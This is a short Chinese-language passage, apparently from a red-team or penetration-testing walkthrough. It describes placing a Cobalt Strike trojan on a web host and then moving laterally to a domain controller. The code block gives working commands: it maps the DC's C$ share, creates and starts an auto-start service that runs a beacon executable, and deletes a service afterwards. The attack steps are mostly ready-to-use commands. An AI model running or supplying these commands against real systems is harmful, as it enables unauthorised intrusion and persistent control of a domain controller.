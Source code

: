 ![](img/32.png)

然后将此监听器`(内网代理)`生成的木马放到web主机，创建服务运行上线CS

```bash
# 连接到DC c盘
shell net use \\WIN-A5GPDCPJ7OT\c$

# 向DC创建一个服务
sc \\WIN-A5GPDCPJ7OT create beacon1 binPath= "C:\beacon1.exe" start= auto

# 启动服务
sc [服务器名称] start 服务名称 [服务启动参数]
sc \\WIN-A5GPDCPJ7OT start beacon1

# 删除服务
shell sc \\WIN-A5GPDCPJ7OT delete dcbindshell
```
